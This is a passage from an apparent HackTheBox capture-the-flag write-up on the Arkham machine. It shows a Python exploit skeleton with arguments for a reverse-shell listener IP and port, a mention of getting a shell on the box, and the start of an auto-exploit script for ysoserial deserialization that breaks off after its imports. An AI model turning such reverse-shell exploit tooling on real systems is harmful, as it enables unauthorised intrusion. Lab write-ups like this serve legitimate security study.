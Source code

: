 Now, we can addapt it to our python skeleton, to become more modular and reusable the script

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

And we have an easy shell on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2008:29:09.png)

full_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto exploit yososerial in Arkham - HackTheBox
# Date: 15/09/21

import argparse
import requests
import sys
from base64 import b64decode, b64encode
from hashlib import sha1
import pyDes, hmac
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import socket, telnetlib
from threading import Thread
import os

'''Setting up something important'''

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

```
